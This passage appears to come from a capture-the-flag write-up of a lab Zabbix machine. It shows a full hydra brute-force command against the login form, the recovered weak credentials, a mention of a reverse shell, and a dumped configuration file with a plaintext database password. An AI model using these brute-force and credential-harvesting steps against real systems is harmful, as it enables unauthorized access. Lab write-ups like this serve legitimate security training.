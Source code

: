 Now lets see what is at `http://10.10.10.108/zabbix`.

![](../.gitbook/assets/zipper-1.png)

### Gaining access to Zabbix

After some enumeration, a potential username was found, `zapper`. While running `hydra` and a custom wordlist on the variation of the word `zapper` I got a non-GUI acess message. Sounds like we have the right credentials but this user is only allowed API access.

```bash
hydra -l zapper -P /root/infosec-toolbox/SecLists/Passwords/probable-v2-top12000.txt 10.10.10.108 http-post-form "/zabbix/index.php/:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect."
```

username: `zapper` password: `zapper` `GUI access disabled`

With the following Python script I was able to get a login token, iterate through the hosts and create and execute scripts. The `Admin` credentials were obtained by using the `zapper`,`zapper` credentials, getting a reverse shell and then running `cat` on the `zabbix` configuration file:

```php
<?php
// Zabbix GUI configuration file.
global$DB;

$DB['TYPE']     ='MYSQL';
$DB['SERVER']   ='localhost';
$DB['PORT']     ='0';
$DB['DATABASE'] ='zabbixdb';
$DB['USER']     ='zabbix';
$DB['PASSWORD'] ='f.YMeMd$pTbpY3-449';

// Schema name. Used for IBM DB2 and PostgreSQL.
$DB['SCHEMA'] ='';$ZBX_SERVER='localhost';

$ZBX_SERVER_PORT='10051';
$ZBX_SERVER_NAME='Zabbix';

$IMAGE_FORMAT_DEFAULT=IMAGE_FORMAT_PNG;
?>
```
